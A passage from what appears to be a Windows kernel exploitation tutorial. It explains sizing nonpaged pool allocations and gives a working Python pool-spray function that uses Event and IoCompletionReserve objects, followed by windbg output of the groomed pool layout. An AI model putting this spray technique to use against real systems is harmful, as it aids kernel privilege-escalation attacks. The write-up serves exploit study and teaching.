 However, those sizes were no use as they are not modulus with 0x460. After some time testing/playing around, I relized that we can do this:

{% highlight python %}
>>> 0x460 % 0xa0
0
>>>
{% endhighlight %}

Great! So 0xa0 can be divided evenly into 0x460, but how do we get kernel objects of size 0xa0? Well if we combine the Event and the IoCompletionReserve objects (0x40 + 0x60 = 0xa0) then we can achieve it.

#### The Spray

{% highlight python %}
def we_can_spray():
    """
    Spray the Kernel Pool with IoCompletionReserve and Event Objects. 
    The IoCompletionReserve object is 0x60 and Event object is 0x40 bytes in length.
    These are allocated from the Nonpaged kernel pool.
    """
    handles = []
    IO_COMPLETION_OBJECT = 1
    for i in range(0, 25000):
        handles.append(windll.kernel32.CreateEventA(0,0,0,0))
        hHandle = HANDLE(0)
        handles.append(ntdll.NtAllocateReserveObject(byref(hHandle), 0x0, IO_COMPLETION_OBJECT))

    # could do with some better validation
    if len(handles) > 0:
        return True
    return False
{% endhighlight %}

This function sprays 50,000 objects. 25,000 Event objects and 25,000 IoCompletionReserve objects. This looks quite pretty in windbg:

{% highlight text %}
kd> !pool 85d1f000
Pool page 85d1f000 region is Nonpaged pool
*85d1f000 size:   60 previous size:    0  (Allocated) *IoCo (Protected)
        Owning component : Unknown (update pooltag.txt)
 85d1f060 size:   60 previous size:   60  (Allocated)  IoCo (Protected)       <--- chunk first allocated in the page
 85d1f0c0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f100 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f160 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f1a0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f200 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f240 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f2a0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f2e0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f340 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f380 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f3e0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f420 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f480 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f4c0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f520 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f560 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f5c0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f600 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f660 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f6a0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)